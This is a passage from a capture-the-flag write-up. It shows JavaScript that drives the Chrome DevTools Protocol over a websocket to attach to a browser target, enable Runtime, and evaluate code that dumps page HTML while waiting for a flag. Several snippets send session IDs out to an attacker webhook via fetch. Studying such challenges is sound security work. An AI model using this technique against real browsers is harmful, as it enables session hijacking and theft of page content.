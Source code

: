 Yay things are working! In that second decoded string we can see that's the response to the `Target.attachToTarget`, and listed is `"attached":true`!

Let's move on to execution:

## The fun!

This is the same payload as before, we are now adding on the following:
```js
...
    else if (data && data.id === 2 && data.result && data.result.sessionId) {
      const sessionId = data.result.sessionId;
      fetch(`${webhook}?gotSessionId=${sessionId}`);
      
      const enableRuntimeCommand = {
        id: 3,
        method: 'Runtime.enable',
        params: {},
        sessionId: sessionId
      };
      ws.send(JSON.stringify(enableRuntimeCommand));
    }

    else if (data && data.id === 3){
      ws.close();
    }
...
```

This will enable `Runtime` commands!

We get this new response: `{"id":3,"result":{},"sessionId":"3AE5046B90DE80963D8144DE14A75FAF"}`

I now use `evaluate` to get the page content!

```js
...
const evaluateCommand = {
  id: 4 + checkAttempts,
  method: 'Runtime.evaluate',
  params: {
    expression: 'document.documentElement.outerHTML',
    returnByValue: true
  },
  sessionId: sessionId
};
ws.send(JSON.stringify(evaluateCommand));
...
```

This *should* work fine, but it doesn't as page content takes time to load, so we need to continously check for the content in the HTML. We know the flag starts with `PWNME` so let's wait for that:
```js
...
else if (data && data.id === 2 && data.result && data.result.sessionId) {
  sessionId = data.result.sessionId;
  fetch(`${webhook}?gotSessionId=${sessionId}`);
  const enableRuntimeCommand = {
    id: 3,
    method: 'Runtime.enable',
    params: {},
    sessionId: sessionId
  };
  ws.send(JSON.stringify(enableRuntimeCommand));
  checkContent();
}
...
```
